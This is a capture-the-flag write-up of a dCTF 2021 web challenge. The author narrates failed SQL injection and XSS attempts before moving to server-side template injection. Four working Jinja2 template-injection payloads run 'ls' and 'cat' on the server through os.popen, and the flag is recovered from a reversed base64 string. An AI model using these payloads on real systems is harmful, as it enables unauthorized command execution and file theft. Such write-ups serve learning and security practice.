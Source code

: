 Challenge: Injection
<br>
Points: 200
<br>
Category: Web
<br>
Objective: Go to the given URL and get the flag
<br>
Process of find the flag: So when I opened up the URL I saw a basic login form, I thought we need to use SQL injection to exploit it, I tried a lot of SQL injections but none of them worked, then I thought maybe XSS injections would work so I tried a lot of XSS injections, this all took me around 1.5 hours to two hours and the result was nothing I did not make any progress at all.
<br>
So after a few hours of rest and a couple of challenges later I came back to it, because one of my friends gave me a hint that its related to Server Side Template Injection(SSTI), so I quickly watched a few YouTube videos to understand how SSTI works.
<br>
After watching the videos I googled ‘SSTI payload cheatsheet’ and found a lot of resources full of SSTI payloads, then I tried all of them in the input field and none of them worked at all, then later on I got to know that I need to add those payloads at the end of the URL and not in the input fields, so I quickly tried a few basic payloads and they seem to be working, so now I just had to find the correct payload.
<br>
I found this payload 
```

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

```
<br>
What this does is, it imports OS module, and allows us to use OS commands, so when we use ls command we get this 
<br><br> 
![content](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/content.png)
<br>

So no we needed to check all the other folders and the app.py file.
I did check app.py by 
```

{{config.__class__.__init__.__globals__['os'].popen('cat app.py').read()}}

```
But I didn’t get the result that I wanted.

So I tried to list all the items in the lib directory, and this could be done by 
```

{{config.__class__.__init__.__globals__['os'].popen('ls /app/lib').read()}}

```
This directory had a file named as security.py
<br><br>
![post_request](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/request.png)
<br>
So now I had to check what was inside security.py
```
{{config.__class__.__init__.__globals__['os'].popen('cat /app/lib/security.py').read()}}
```
I found something really helpful.
<br><br>
![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/request.png)
<br>
This is the flag, but its encrypted, so now I just had to decrypt it.
<br>
I couldn’t decrypt it due to my bad cryptography skills, so my teammate did it.
To decrypt it you just had to flip the string backwords and then decrypt it using base64.
This is the reversed string
<br><br>
![decrypted_result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/decrypted%20result.png)
<br>
The flag: dctf{4ll_us3r_1nput_1s_3v1l}
<br><br><br>
The tool that I used in this challenge is Postman(https://www.postman.com/)
